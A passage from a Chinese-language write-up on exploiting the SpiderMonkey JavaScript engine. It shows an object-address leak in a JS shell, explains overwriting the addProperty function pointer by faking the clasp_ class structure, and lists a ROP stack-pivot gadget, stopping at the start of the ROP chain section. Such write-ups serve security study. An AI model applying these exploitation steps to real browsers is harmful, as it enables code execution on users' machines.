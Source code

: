 ```
js&gt; a[14]=obj_to_leak // offset 14 泄露对象地址
({a:1})
js&gt; objectAddress(obj_to_leak)
"0000023E6937E430"
js&gt; b.slice(0,8)
({0:48, 1:228, 2:55, 3:105, 4:62, 5:2, 6:254, 7:255})
js&gt; Int64.fromJSValue(b.slice(0, 8)).toString(16)
"0x0000023e6937e430"
js&gt;
```

看上去没什么问题，后面来调试exp。



## basic.js

有了读写原语，后面需要劫持执行流。使用的方法是找到并覆盖某个object的函数指针，再调用这个函数来触发。

好多层，大概长这样：

```
js::NativeObject 
    +0x000 group_
        +0x000 value js!js::ObjectGroup
            +0x000 clasp_ js!js::Class
                +0x010 cOps js!js:ClassOps
                    +0x000 addProperty
                    +0x008 delProperty
```

结果发现addProperty这里是没有写权限的，只能往上找可以写的地方然后把他之后的结构都伪造出来，找到的目标是js::ObjectGroup那里，所以伪造它的整个clasp_结构就好了 。

在获得改写addProperty的能力之后，需要思考如何做stack pivot，接下来就是要找到一个合适的rop gadget，0vercl0k找了一个：

```
00007fff`b8c4fda3 ff33            push    qword ptr [rbx]
[...]
00007fff`b8c4fda8 5c              pop     rsp
00007fff`b8bf500d 4883c440        add     rsp,40h
[...]
00007fff`b8bf5016 c3              ret
```

注意在调用到addProperty时，rbx是 `JSObject` 的指针。

即对于下面的Target来说：

```
const Target = new Uint8Array(90);
...
Target.im_falling_and_i_cant_turn_back = 1;
```

这个gadget把执行流转移到Target的buffer空间中，在此处放置其他gadget，进入下一阶段。

### <a class="reference-link" name="ROP%20chain"></a>ROP chain
